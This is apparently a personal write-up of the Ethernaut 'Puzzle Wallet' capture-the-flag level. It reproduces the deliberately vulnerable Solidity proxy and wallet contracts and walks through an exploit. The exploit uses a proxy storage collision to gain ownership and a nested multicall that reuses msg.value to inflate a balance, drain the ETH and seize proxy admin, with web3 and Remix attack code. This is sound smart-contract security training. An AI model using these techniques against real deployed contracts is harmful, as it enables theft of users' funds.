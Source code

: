 # Ethernaut 24: Puzzle Wallet

Learn how to work with more realistic code. Here we have an obvious vulnerability in storage, but to exploit it, a small chain of tasks is necessary that exploits another not so obvious vulnerability.

## The Task Intro

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract.

Move on to the next level when you're ready!

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## The Solution

This level was much harder then the previous ones. The first vulnerability was clear after first sight: We have a Proxy contract and an implementation contract that do not match in Storage. Calls made on the proxy override values on the implementation and vice virca. I know that the storage is stored on the Proxy and the logic does not contain any data - if we stick to the delegatecall pattern.

It is obvious to make the me first owner of the implementation. Why is this important? Only whitelisted users can interact with the implementation. For being whitelisted I have to be the owner. The attack makes first the attacker as an owner of the implementation by calling `proposeNewAdmin(address _newAdmin)`. This sets the pendingAdmin variable, but in a delegate call an owner address is expected here, therefore I am the owner of implemntation now, when I use a delegate call. Next step is to whitelist me with `addToWhitelist`

Second step of the attack is to become the admin of the proxy contract. This is not possible through the proxy, if we could set the storage slot 1 through a delegatecall to my address, I would be the admin. The variable there is `maxBalance`. `MaxBalance` is set through 2 functions: 1 `init` or `setMaxBalance`. Init seems impossible to set maxBalance, because it require `maxBalance == 0`and it is already set to a non-zero value. `setMaxBalance`seems a way work, but it requires that the contract has a zero eth balance, currently it has a 0.001 eth balance.

Before we can set the maxBalance, we need to drain all eth out of the contract. I can use the `execute` function for this. This requires that I have a balances[myaddress]>= than the value requested. So a possible attack is to artifically rise my balance but not giving that much eth to the contract.

Calling deposit multiple times does not work because it asks each time the same value of eth. But what if in the same call I could make several calls to deposit, using the same msg.value several time? Obvious candidate is the multicall function.

This function has a simple flag check in it, only allowing one call to the deposit function, which seems safe. But hey, thinking it twice, this function allows to make multiple multicall, why not another multicall that contains a call to a deposit? In this case the flag check would pass again and I can manipulate my balance to be higher than the actual eth in the contract - a hidden vulnerability.

After this exploit, I can retrieve all eth from the contract and set maxBalance to my address. This makes me the admin of the proxy - task solved 👍. Technically I switched between solidity remix and web3 calls, here my implementation:

````apache
1. Get owner of the implementation
contract.abi
Array(10) [ {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…} ]
0: Object { name: "addToWhitelist", stateMutability: "nonpayable", type: "function", … }
1: Object { name: "balances", stateMutability: "view", type: "function", … }
2: Object { name: "deposit", stateMutability: "payable", type: "function", … }
3: Object { name: "execute", stateMutability: "payable", type: "function", … }
4: Object { name: "init", stateMutability: "nonpayable", type: "function", … }
5: Object { name: "maxBalance", stateMutability: "view", type: "function", … }
6: Object { name: "multicall", stateMutability: "payable", type: "function", … }
7: Object { name: "owner", stateMutability: "view", type: "function", … }
8: Object { name: "setMaxBalance", stateMutability: "nonpayable", type: "function", … }
9: Object { name: "whitelisted", stateMutability: "view", type: "function", … }
```
````

Unfortunately the method proposeNew admin is not there, I switched therefore to Remix, and with this I was the owner.

```apache
    address public proxy = 0x1;
    address public wallet = 0x1;

   function attack() public {
       bytes memory calldatas = abi.encodeWithSignature("proposeNewAdmin(address)",msg.sender);
       (bool success, ) = proxy.call(calldatas);
       if(!success){
           revert();
       }
   }
```

As immediate next step I whitelist me throught the browser console, so I am allowed to interact with the contract and fulfill the require from the onlyWhitelisted modifier.

```àppache
// whitelist the owner
await contract.addToWhitelist(player)
```

After this task, I am the owner of the implementation contract but now the admin of the proxy. For this the next step is to drain all eth out of the contract with a nested multicall.

```apache
// set the deposit function selector
let depositSelector = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )

// set the multicall selector with a nested deposit call
let multicallSelector = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector]])

// make the nested multicall
await web3.eth.sendTransaction({
    from: "myAddress",
    to: contract.address,
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector, multicallSelector]]),
    value:  web3.utils.toWei('0.001', 'ether')
})


```

After this I can exploit all eth with `execute` and finally set me as proxy admin with `setMaxBalance`.

````apache
// get the eth
await contract.execute("myAddress", web3.utils.toWei('0.002', 'ether'),[])

// setMaxBalance - interestingly no casting is necessary :-)
await contract.setMaxBalance("myAddress")
```
````

Done 🎉️. This was a difficult task, especally to see the second vulnerability and exploit it correctly with abi encoding was time consuming, but finally as always solvable.
